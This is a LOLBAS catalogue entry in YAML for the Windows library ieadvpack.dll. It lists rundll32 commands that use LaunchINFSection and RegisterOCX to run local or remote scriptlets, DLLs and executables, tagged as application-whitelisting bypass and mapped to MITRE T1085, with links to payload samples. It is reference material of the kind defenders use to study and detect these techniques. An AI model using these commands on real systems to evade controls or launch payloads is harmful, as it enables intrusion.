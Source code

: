 ```yaml
---
Name: Ieadvpack.dll
Description: INF installer for Internet Explorer. Has much of the same functionality as advpack.dll.
Author:
Created: "2018-05-25"
Commands:
  - Command: rundll32.exe ieadvpack.dll,LaunchINFSection c:\test.inf,DefaultInstall_SingleUser,1,
    Description: Execute the specified (local or remote) .wsh/.sct script with scrobj.dll in the .inf file by calling an information file directive (section name specified).
    UseCase: Run local or remote script(let) code through INF file specification.
    Category: AWL Bypass
    Privileges: User
    MitreID: T1085
    MItreLink: https://attack.mitre.org/wiki/Technique/T1085
    OperatingSystem: Windows
  - Command: rundll32.exe ieadvpack.dll,LaunchINFSection c:\test.inf,,1,
    Description: Execute the specified (local or remote) .wsh/.sct script with scrobj.dll in the .inf file by calling an information file directive (DefaultInstall section implied).
    UseCase: Run local or remote script(let) code through INF file specification.
    Category: AWL Bypass
    Privileges: User
    MitreID: T1085
    MItreLink: https://attack.mitre.org/wiki/Technique/T1085
    OperatingSystem: Windows
  - Command: rundll32.exe ieadvpack.dll,RegisterOCX test.dll
    Description: Launch a DLL payload by calling the RegisterOCX function.
    UseCase: Load a DLL payload.
    Category: Execute
    Privileges: User
    MitreID: T1085
    MItreLink: https://attack.mitre.org/wiki/Technique/T1085
    OperatingSystem: Windows
  - Command: rundll32.exe ieadvpack.dll,RegisterOCX calc.exe
    Description: Launch an executable by calling the RegisterOCX function.
    UseCase: Run an executable payload.
    Category: Execute
    Privileges: User
    MitreID: T1085
    MItreLink: https://attack.mitre.org/wiki/Technique/T1085
  - Command: rundll32 ieadvpack.dll, RegisterOCX "cmd.exe /c calc.exe"
    Description: Launch command line by calling the RegisterOCX function.
    UseCase: Run an executable payload.
    Category: Execute
    Privileges: User
    MitreID: T1085
    MItreLink: https://attack.mitre.org/wiki/Technique/T1085
Full_Path:
  - Path: c:\windows\system32\ieadvpack.dll
  - Path: c:\windows\syswow64\ieadvpack.dll
Code_Sample:
  - Code: https://github.com/LOLBAS-Project/LOLBAS-Project.github.io/blob/master/_lolbas/Libraries/Payload/Ieadvpack.inf
  - Code: https://github.com/LOLBAS-Project/LOLBAS-Project.github.io/blob/master/_lolbas/Libraries/Payload/Ieadvpack_calc.sct
Detection:
  - IOC:
Resources:
  - Link: https://bohops.com/2018/03/10/leveraging-inf-sct-fetch-execute-techniques-for-bypass-evasion-persistence-part-2/
  - Link: https://twitter.com/pabraeken/status/991695411902599168
  - Link: https://twitter.com/0rbz_/status/974472392012689408
Acknowledgement:
  - Person: Jimmy (LaunchINFSection)
    Handle: "@bohops"
  - Person: Fabrizio (RegisterOCX - DLL)
    Handle: "@0rbz_"
  - Person: Pierre-Alexandre Braeken (RegisterOCX - CMD)
    Handle: "@pabraeken"
---
```

